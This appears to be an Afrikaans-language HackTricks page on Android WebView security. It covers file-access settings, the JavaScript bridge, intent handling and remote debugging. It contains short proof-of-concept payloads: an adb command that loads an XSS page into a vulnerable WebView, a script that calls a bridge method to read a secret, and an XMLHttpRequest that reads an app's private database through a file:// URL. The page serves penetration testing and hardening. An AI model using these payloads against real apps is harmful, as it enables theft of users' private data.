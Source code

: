 # Webview Aanvalle

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Gids oor WebView Konfigurasies en Sekuriteit

### Oorsig van WebView Kw vulnerabilities

'n Kritieke aspek van Android ontwikkeling behels die korrekte hantering van WebViews. Hierdie gids beklemtoon sleutel konfigurasies en sekuriteitspraktyke om risiko's geassosieer met WebView gebruik te verminder.

![WebView Voorbeeld](<../../.gitbook/assets/image (1190).png>)

### **Lêer Toegang in WebViews**

Standaard laat WebViews lêer toegang toe. Hierdie funksionaliteit word beheer deur die `setAllowFileAccess()` metode, beskikbaar sedert Android API vlak 3 (Cupcake 1.5). Toepassings met die **android.permission.READ\_EXTERNAL\_STORAGE** toestemming kan lêers van eksterne stoor lees met 'n lêer URL skema (`file://path/to/file`).

#### **Verouderde Kenmerke: Universele en Lêer Toegang Vanaf URL's**

* **Universele Toegang Vanaf Lêer URL's**: Hierdie verouderde kenmerk het kruis-oorsprong versoeke vanaf lêer URL's toegelaat, wat 'n beduidende sekuriteitsrisiko inhou weens potensiële XSS aanvalle. Die standaard instelling is gedeaktiveer (`false`) vir toepassings wat op Android Jelly Bean en nuwer teiken.
* Om hierdie instelling te kontroleer, gebruik `getAllowUniversalAccessFromFileURLs()`.
* Om hierdie instelling te wysig, gebruik `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Lêer Toegang Vanaf Lêer URL's**: Hierdie kenmerk, ook verouderd, het toegang tot inhoud vanaf ander lêer skema URL's beheer. Soos universele toegang, is die standaard gedeaktiveer vir verbeterde sekuriteit.
* Gebruik `getAllowFileAccessFromFileURLs()` om te kontroleer en `setAllowFileAccessFromFileURLs(boolean)` om in te stel.

#### **Veilige Lêer Laai**

Om lêerstelsels toegang te deaktiveer terwyl bates en hulpbronne steeds toeganklik is, word die `setAllowFileAccess()` metode gebruik. Met Android R en hoër is die standaard instelling `false`.

* Kontroleer met `getAllowFileAccess()`.
* Aktiveer of deaktiveer met `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Die **WebViewAssetLoader** klas is die moderne benadering vir die laai van plaaslike lêers. Dit gebruik http(s) URL's om toegang te verkry tot plaaslike bates en hulpbronne, wat ooreenstem met die Same-Origin beleid, en fasiliteer dus CORS bestuur.

### loadUrl

Dit is 'n algemene funksie wat gebruik word om arbitrêre URL's in 'n webview te laai:
```java
webview.loadUrl("<url here>")
```
Ofc, 'n potensiële aanvaller moet nooit in staat wees om die **URL** te **beheer** wat 'n toepassing gaan laai.

### **JavaScript en Intent Skema Hantering**

* **JavaScript**: Standaard gedeaktiveer in WebViews, dit kan geaktiveer word via `setJavaScriptEnabled()`. Versigtigheid word aanbeveel aangesien die aktivering van JavaScript sonder behoorlike beskerming sekuriteitskwesbaarhede kan inbring.
* **Intent Skema**: WebViews kan die `intent` skema hanteer, wat moontlik kan lei tot ontploffings as dit nie versigtig bestuur word nie. 'n Voorbeeld kwesbaarheid het 'n blootgestelde WebView parameter "support\_url" ingesluit wat benut kon word om cross-site scripting (XSS) aanvalle uit te voer.

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

Eksploitering voorbeeld met adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Brug

'n Kenmerk word deur Android verskaf wat **JavaScript** in 'n WebView in staat stel om **natuurlike Android-app funksies** aan te roep. Dit word bereik deur die `addJavascriptInterface` metode te gebruik, wat JavaScript met natuurlike Android funksies integreer, genoem 'n _WebView JavaScript brug_. Versigtigheid word aanbeveel aangesien hierdie metode alle bladsye binne die WebView toelaat om toegang te verkry tot die geregistreerde JavaScript Interface objek, wat 'n sekuriteitsrisiko inhou as sensitiewe inligting deur hierdie interfaces blootgestel word.

* **Uiterste versigtigheid is nodig** vir toepassings wat op Android weergawes onder 4.2 teiken weens 'n kwesbaarheid wat afstandkode-uitvoering deur kwaadwillige JavaScript toelaat, wat refleksie benut.

#### Implementering van 'n JavaScript Brug

* **JavaScript interfaces** kan met natuurlike kode kommunikeer, soos in die voorbeelde waar 'n klasmetode aan JavaScript blootgestel word:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript-brug is geaktiveer deur 'n koppelvlak aan die WebView toe te voeg:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potensiële uitbuiting deur middel van JavaScript, byvoorbeeld, via 'n XSS-aanval, stel die oproep van blootgestelde Java-metodes in staat:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Om risiko's te verminder, **beperk die gebruik van die JavaScript-brug** tot kode wat saam met die APK gestuur is en verhoed dat JavaScript van afstandbronne gelaai word. Stel vir ouer toestelle die minimum API-vlak op 17.

### Refleksie-gebaseerde Afstandkode-uitvoering (RCE)

* 'n Gedokumenteerde metode maak dit moontlik om RCE deur refleksie te bereik deur 'n spesifieke payload uit te voer. Die `@JavascriptInterface` annotasie verhoed egter ongeoorloofde metode-toegang, wat die aanvaloppervlak beperk.

### Afstanddebugging

* **Afstanddebugging** is moontlik met **Chrome Developer Tools**, wat interaksie en arbitrêre JavaScript-uitvoering binne die WebView-inhoud moontlik maak.

#### Aktivering van Afstanddebugging

* Afstanddebugging kan geaktiveer word vir alle WebViews binne 'n toepassing deur:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Om foutopsporing voorwaardelik in te skakel gebaseer op die toepassing se foutopsporingstoestand:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Exfiltreer arbitrêre lêers

* Demonstreer die eksfiltrasie van arbitrêre lêers met behulp van 'n XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Verwysings

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
